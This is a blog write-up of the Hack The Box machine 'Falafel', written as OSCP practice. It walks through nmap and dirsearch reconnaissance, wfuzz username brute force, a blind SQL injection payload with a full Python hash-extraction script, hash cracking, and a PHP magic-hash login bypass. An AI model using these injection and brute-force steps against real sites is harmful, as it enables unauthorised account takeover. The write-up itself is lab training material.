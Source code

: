 ```yaml
---
title:  "Hack The Box / Falafel"
date: 2020-02-01
tags: [Penetration Testing, Hacking, Hack The Box, Jeeves, OSCP, Offensive Security]
header: 
  image: "assets/images/falafel/falafel-header.png"
---
```

Falafel is our sixth machine in the OSCP list provided by [NetSec Focus](https://www.netsecfocus.com/)! This machine was quite exotic due to its vulnerabilities and privilege escalation. Definetely some advance knowledge about php, MySQl, and linux was required, but the most of the learning came from [ipssec's](https://www.youtube.com/watch?v=CUbWpteTfio&t=) video about solving this machine. I have to say that there were easier ways to do it, but I rather to make it manually to learn how some technologies work. This is the sixth blog before my third attempt to the OSCP exam, so let's get to it!

## Information Gathering

### Nmap Scan
So, we start with a nmap scan to check what ports are open and what services are running in this machine. 

```
nmap -sC -sV -p- -oN scan.nmap 10.10.10.73
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/nmap.png" alt="nmap scan">

Here we have two useful ports and services such as SSH running in port 22 and HTTP running in port 80. There is some information in port 80 from ```robots.txt``` where it disallows all entries with a ```.txt``` extension. So, we might want to specify the extension at the time to do directory brute force.

### Directory Brute Force
This is what we have in our browser for now.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/browser-capure.png" alt="nmap scan">

Running [dirsearch](https://github.com/maurosoria/dirsearch) we have some results!
```
./dirsearch.py -u http://10.10.10.73 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -f -e txt
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/dirsearch.png" alt="nmap scan">

Let's see what we find at ```http://10.10.10.73/cyberlaw.txt```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/cyberlaw.png" alt="nmap scan">

Great, seems that some of the vector attack is related with the upload feature, here there is a username which is chris, so let's find more usernames. 

### Username Brute Force with Wfuzz
[Wfuzz](https://github.com/xmendez/wfuzz) is a pretty handy tool that can be helpful for a variety of things. In this case let's use it to do some username brute force.
```
wfuzz -c -w /usr/share/seclists/Usernames/Names/names.txt -d "username=FUZZ&password=abcd" -u http://10.10.10.73/login.php --hh 7074
```
Where:
- ```-w``` specifies the wordlist.
- ```-d``` the parameter to brute force
- ```-u``` URL of the target
- ```-hh``` hide results with code 7074

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/wfuzz.png" alt="nmap scan">

So we have two valid users which are __chris and admin__.

### SQL Injection to Dump Hash From Database
We can dump the whole database using the powerfull [sqlmap](http://sqlmap.org/), but that's not the idea because the learning will be gone. What we do here is try to analize the HTTP request from the login page and try to find out the correct SQL sintax that will grant us the access. To do this, the usage of [BurpSuite](https://portswigger.net/burp/communitydownload) will be crucial. So let's get to it. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/correct-user.png" alt="nmap scan">

In the repeater from Burpsuite we see that once we go with the right username, we obtain in the response ```Wronf identification : admin``` and the size of the response is ```7,397``` bytes. Saying that, let's see how is the response if we go with the wrong user. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/wrong-user.png" alt="nmap scan">

Then, we see the response ```Try again...``` and the size of this response is ```7,376``` bytes. Now knowing the size of a correct and wrong response, let's try different SQL sintax to see if we get the correct one. 
- __Note:__ There were countless tries before attempting this were most of the SQL sintax came from [SecLists](https://github.com/danielmiessler/SecLists). Also keep in mind what kind of SQL database the target is using. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/sql-sintax.png" alt="nmap scan">

Knowing that the sintax gave us a positive answer and that the hash for admin starts with ```0e``` we can create a python script that will get the hash for us. Before this, get in mind the SQL sintax used. 
```
admin' and password like '0e%'-- -
```

#### Python Script
~~~python
import requests

chars = [0,1,2,3,4,5,6,7,8,9,'a','b','c','d','e','f'] # Just hex characters.

def GetSQL(i,c): # Getting proper SQL sintax using the chars. 
    return "chris' and substr(password,%s,1) = '%s'-- -" % (i,c)

for i in range(1,33): # Try to discover the hash
    for c in chars:
        injection = GetSQL(i,c)
        payload = {'username':injection, 'password':'password'}
        r = requests.post('http://10.10.10.73/login.php', data = payload)
        if "Wrong identification" in r.text:
            print(c, end='',flush=True)
            break
print()
~~~

So, basically with this script we'll try all the characters untill one of the gets the correct answer which is ```Wrong identification``` then it prints the correct character untill we got the final hash. Here, we're specifying the user ```chris``` but we can do it with the user ```admin``` as well. This is the hash that has been gotten from ```chris```.

- __chris' hash:__ d4ee02a22fc872e36d9e3751ba72ddc8

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/hash-gotten.png" alt="nmap scan">

Once the hash has been gotten, we go to [CrackStation](https://crackstation.net/) and this is the result. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/hash-cracked.png" alt="nmap scan">

Which menas ```chris:juggling```, and this is what we get once we log in. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/chris-login.png" alt="nmap scan">

Interesting, but no upload feauture, let's try with ```admin```.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/admin-hash.png" alt="nmap scan">

So this is the has gotten for ```admin``` user: 0e462096931906507119562988736854. And unfortunately __there is no results in CrackStation__, so looking for more resources, it seems to be some kind of php juggling, so for this we might google something like ```php 0e hash collision``` and we'll see that we can log in with a md5 hash where in this case we used this ```240610708``` and we are in.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/falafel/upload-feauture.png" alt="nmap scan">

and wolah! Here it is the upload feature!